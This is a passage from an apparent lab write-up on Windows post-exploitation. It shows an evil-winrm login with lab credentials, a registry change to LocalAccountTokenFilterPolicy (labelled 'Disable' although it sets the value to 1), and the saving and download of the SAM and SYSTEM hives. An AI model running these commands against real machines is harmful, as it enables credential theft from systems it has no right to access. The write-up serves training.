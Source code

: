         ```
        evil-winrm -i $IP -u thmuser1 -p Password321
        ```

        ![task2-login](./images/task2-login.png)

    * Disable LocalAccountTokenFilterPolicy from administrator user

        ```
        reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /t REG_DWORD /v LocalAccountTokenFilterPolicy /d 1
        ```

        ![task2-reg-add](./images/task2-reg-add.png)

    * Make backup of SAM and SYSTEM 

        ```
        reg save hklm\system system.bak
        reg save hklm\sam sam.bak
        download system.bak
        download sam.bak
        ```
